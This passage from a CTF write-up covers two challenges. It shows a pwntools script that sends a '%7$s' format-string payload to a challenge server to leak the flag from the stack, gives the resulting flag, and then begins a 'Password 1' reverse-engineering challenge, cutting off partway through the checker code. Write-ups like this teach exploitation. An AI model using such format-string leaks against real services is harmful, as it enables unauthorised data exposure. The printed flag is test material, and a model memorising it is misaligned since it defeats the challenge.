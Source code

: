 ![leakingvalues](/assets/leakingvalues.png)

With some trial and error, we determine that the 7th value is the important addr, which we can then use to leak the flag string from the stack. (via %s)
We make an exploit:
```python
from pwn import *
context(arch="i386", os="linux")
r=remote("cyberyoddha.baycyber.net", 10005)
r.send('%7$s')
r.interactive()
```

We run it and... we get the flag.

![formatStringexploit](/asset/formatstringexploit.png)

#### flag: cyctf{3xpl0!t_th3_f0rm@t_str!ng}
## Reverse Engineering
# Password 1

![password1](/assets/password1.JPG)

```python
import random

def checkPassword(password):
    if(len(password) != 43):
      return False
    if(password[26] == 'r' and 
      password[33] == 't' and 
      password[32] == '3' and 
      password[16] == '3' and 
      password[4] == 'F' and 
      password[21] == 'r' and 
      password[38] == '1' and 
      password[18] == 'c' and 
```